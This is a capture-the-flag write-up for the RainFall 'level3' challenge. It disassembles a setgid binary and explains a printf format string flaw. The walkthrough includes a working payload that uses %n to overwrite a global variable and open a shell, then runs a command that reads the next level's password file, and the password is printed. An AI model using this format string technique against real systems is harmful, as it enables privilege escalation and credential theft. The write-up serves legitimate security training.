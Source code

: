 # level3

## Hint

When we log into the machine as `level3`, we notice a binary that segfaults when we run it without a parameter:

```shell-session
level3@RainFall:~$ ls -l
total 6
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

## gdb

First, we'll need to see all available global symbols

```gdb
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m                    <------ global variable m, in the bss section of object
```

Now lets look at the functions of the binary

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>    <---- call to v
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
gdb-peda$ disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218            <----- allocation of a buffer of 520
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200  <------- Offset of same buffer to 512
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>      <------ Call to fgets into esp
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt> <---- Call to printf with esp as conv string
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40              <----- conditionnal jump on the value of variable m and the value 64
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d   <---- "/bin/sh" fed to
   0x08048513 <+111>:	call   0x80483c0 <system@plt>      <---- Call to system function
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

# Format String Attack

The vulnerabilty here is clearly the usage of an unsanitized user-defined conversion string and the lack of variadic argument to `printf`. This combination is very dangerous as it allows the user to display data and addresses found in the stack, and it's precisely what is required by this exercise as we can read [here](https://owasp.org/www-community/attacks/Format_string_attack):
> The attack could be executed when the application doesn’t properly validate the submitted input. 
> In this case, if a Format String parameter, like %x, is inserted into the posted data, the string is parsed by the Format Function, and the conversion specified in the parameters is executed.
> However, the Format Function is expecting more arguments as input, and if these arguments are not supplied, the function could read or write the stack.

On top of that, we have type conversions and options at our disposal to access arbitrary positionnal arguments on the stack, namely:
- option `$` that is used with an integer `i` to access the `ith` argument positionned after printf
- type conversion `%n` that inserts an integer corresponding to the number of bytes written so far in the type conversion format.

This means:
```c
int randomarg;
int m;
printf("123%2$n", randomarg, &m); //will insert the value 3 at the addres of m
```

# Plan

There is a lot to unpack here, so lets proceed:

1. There is a conditionnal jump that leads to a shell but compares a static symbol `m` and a hardcoded value 64. This variable is outside of the control flow, so we must find a way to edit the contents of this variable without having access to it directly in order to reach the system call
2. The call to `printf` is vulnerable to user input. We can easily access values on the stack by feeding arbitrary conversion format to the function like `%s/p/x/n`
3. The addres of `m` is consistent. Thanks to the lack of ASLR on the VM.
4. By feeding the correct conversion through stdin, we will be able to write the correct value (`64`) in `m` so that the conditionnal jump succeeds and we end up with an open shell.

# Proceed



```shell-session
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08' + '%60c' + '%4\$n'"; cat -) | ./level3

Wait what?!
cat /home/user/$(whoami)/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
